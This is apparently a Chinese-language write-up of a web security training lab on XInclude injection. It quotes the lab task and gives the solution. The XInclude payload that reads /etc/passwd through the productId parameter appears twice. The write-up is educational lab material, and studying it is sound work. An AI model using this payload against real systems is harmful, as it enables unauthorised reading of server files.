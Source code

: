 3、要执行 XInclude 攻击，需要引用 XInclude 命名空间并提供希望包含的文件的路径

```
例如：
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### 题目

```
Lab: Exploiting XInclude to retrieve files
PRACTITIONER

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.
```

```
信息：

1、本实验有一个“Check stock”特性，它将用户输入嵌入到服务器端XML文档中，然后解析该文档。

2、因为不能控制整个XML文档，所以不能定义DTD来发起典型的XXE攻击。

3、完成实验：插入XInclude语句以检索/etc/passwd文件的内容。

4、默认情况下，XInclude会尝试将包含的文档解析为XML。由于/etc/passwd不是有效的XML，因此需要向XInclude指令添加一个额外的属性来更改此行为。
```

### 答案

XXE注入

将productId参数的值设置为（storeid的参数测试行不通）

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

